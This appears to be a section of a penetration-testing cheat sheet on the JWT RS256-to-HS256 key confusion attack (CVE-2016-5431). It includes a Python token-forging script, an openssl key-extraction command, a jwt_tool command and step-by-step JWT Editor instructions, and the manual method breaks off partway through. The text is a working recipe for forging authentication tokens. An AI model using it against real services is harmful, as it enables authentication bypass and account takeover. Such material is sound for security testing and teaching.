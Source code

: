 
### JWT Signature - Key Confusion Attack RS256 to HS256 (CVE-2016-5431)

If a server’s code is expecting a token with "alg" set to RSA, but receives a token with "alg" set to HMAC, it may inadvertently use the public key as the HMAC symmetric key when verifying the signature.

Because the public key can sometimes be obtained by the attacker, the attacker can modify the algorithm in the header to HS256 and then use the RSA public key to sign the data. When the applications use the same RSA key pair as their TLS web server: `openssl s_client -connect example.com:443 | openssl x509 -pubkey -noout`

> The algorithm **HS256** uses the secret key to sign and verify each message.
> The algorithm **RS256** uses the private key to sign the message and uses the public key for authentication.

```python
import jwt
public = open('public.pem', 'r').read()
print public
print jwt.encode({"data":"test"}, key=public, algorithm='HS256')
```

:warning: This behavior is fixed in the python library and will return this error `jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret.`. You need to install the following version: `pip install pyjwt==0.4.3`.

* Using [ticarpi/jwt_tool](#)
    ```ps1
    python3 jwt_tool.py JWT_HERE -X k -pk my_public.pem
    ```
* Using [portswigger/JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd)
    1. Find the public key, usually in `/jwks.json` or `/.well-known/jwks.json`
    2. Load it in the JWT Editor Keys tab, click `New RSA Key`.
    3. . In the dialog, paste the JWK that you obtained earlier: `{"kty":"RSA","e":"AQAB","use":"sig","kid":"961a...85ce","alg":"RS256","n":"16aflvW6...UGLQ"}`
    4. Select the PEM radio button and copy the resulting PEM key.
    5. Go to the Decoder tab and Base64-encode the PEM.
    6. Go back to the JWT Editor Keys tab and generate a `New Symmetric Key` in JWK format.
    7. Replace the generated value for the k parameter with a Base64-encoded PEM key that you just copied.
    8. Edit the JWT token alg to `HS256` and the data.
    9. Click `Sign` and keep the option: `Don't modify header`

* Manually using the following steps to edit an RS256 JWT token into an HS256
    1. Convert our public key (key.pem) into HEX with this command.

        ```powershell
        $ cat key.pem | xxd -p | tr -d "\\n"
        2d2d2d2d2d424547494e20505[STRIPPED]592d2d2d2d2d0a
        ```

    2. Generate HMAC signature by supplying our public key as ASCII hex and with our token previously edited.
